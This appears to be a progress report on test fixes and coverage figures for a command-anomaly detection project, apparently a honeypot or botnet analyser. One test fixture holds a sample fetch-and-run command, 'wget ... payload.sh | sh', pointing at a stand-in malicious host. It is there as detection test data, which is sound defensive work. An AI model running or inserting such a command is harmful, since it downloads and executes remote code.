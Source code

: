 **Fix Applied**:
1. Added 3rd rare_command item (lines 128-143):
   ```python
   {
       "command": "suspicious_command_3",
       "frequency": 1,
       "rarity_score": 0.03,
       "detection_type": "rare_command",
       "sessions": [{"session_id": "test_session_005", ...}],
       "session_count": 1,
   }
   ```

2. Added 2nd anomalous_sequence item (lines 152-157):
   ```python
   {
       "sequence": "wget http://malicious.com/payload.sh | sh",
       "frequency": 2,
       "anomaly_score": 0.98,
       "detection_type": "anomalous_sequence",
   }
   ```

3. Updated session link assertion (line 222):
   ```python
   assert len(session_links) == 4  # 1 + 2 + 1 sessions for the rare commands
   ```

**Result**: All 8 integration tests passing, 1 skipped (pgvector test for SQLite)

---

## Coverage Impact Analysis

### Module-Level Impact

| Module | Statements | Before | After | Delta | Status |
|--------|-----------|--------|-------|-------|--------|
| storage.py | 210 | 46.86% | **50.00%** | **+3.14%** | ✅ Bug fixes improved coverage |
| botnet.py | 262 | 44.66% | 44.66% | 0% | No changes |
| unicode_sanitizer.py | 109 | 92.66% | 92.66% | 0% | Already excellent |
| **TOTAL** | **581** | **55.59%** | **55.59%** | **0%** | Verified only |

**Note**: storage.py coverage improved from 46.86% → 50.00% due to bug fixes exercising previously-erroring code paths (checkpoint creation/retrieval).

### Project-Level Impact

**Day 23 Contribution to Project Coverage**:
- No new tests written (archival + bug fixes only)
- Bug fixes improved storage.py coverage by +3.14% (module-level)
- Project-level impact: Verified existing coverage, improved test reliability
